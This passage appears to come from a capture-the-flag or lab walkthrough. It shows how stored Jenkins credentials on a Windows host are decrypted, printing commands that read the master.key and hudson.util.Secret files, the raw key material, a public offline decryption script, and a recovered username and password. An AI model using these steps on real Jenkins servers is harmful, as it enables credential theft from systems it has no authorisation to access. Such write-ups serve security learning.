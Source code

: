 Offline hash cracking wasn't successful so we will decrypt Jenkins secret. For that we will need to print key and get base64 encoded secret as follows:

```
cmd.exe /c "type c:\Users\oliver\Appdata\local\jenkins\.jenkins\secrets\master.key" 

powershell.exe -c "$secret=[convert]::ToBase64String((Get-Content -path 'c:\Users\oliver\Appdata\local\jenkins\.jenkins\secrets\hudson.util.Secret' -Encoding byte));Write-Output $secret"
```

![web_result](images/Object8.png)
![web_result](images/Object9.png)

```
f673fdb0c4fcc339070435bdbe1a039d83a597bf21eafbb7f9b35b50fce006e564cff456553ed73cb1fa568b68b310addc576f1637a7fe73414a4c6ff10b4e23adc538e9b369a0c6de8fc299dfa2a3904ec73a24aa48550b276be51f9165679595b2cac03cc2044f3c702d677169e2f4d3bd96d8321a2e19e2bf0c76fe31db19

gWFQFlTxi+xRdwcz6KgADwG+rsOAg2e3omR3LUopDXUcTQaGCJIswWKIbqgNXAvu2SHL93OiRbnEMeKqYe07PqnX9VWLh77Vtf+Z3jgJ7sa9v3hkJLPMWVUKqWsaMRHOkX30Qfa73XaWhe0ShIGsqROVDA1gS50ToDgNRIEXYRQWSeJY0gZELcUFIrS+r+2LAORHdFzxUeVfXcaalJ3HBhI+Si+pq85MKCcY3uxVpxSgnUrMB5MX4a18UrQ3iug9GHZQN4g6iETVf3u6FBFLSTiyxJ77IVWB1xgep5P66lgfEsqgUL9miuFFBzTsAkzcpBZeiPbwhyrhy/mCWogCddKudAJkHMqEISA3et9RIgA=
```

You can take script here: https://github.com/gquere/pwn_jenkins/blob/master/offline_decryption/jenkins_offline_decrypt.py

```bash
python3 jenkins_offline_decrypt.py master.key hudson.util.Secret credentials.xml
```

![script_result](images/Object10.png)

```
oliver:c1cdfun_d2434
```
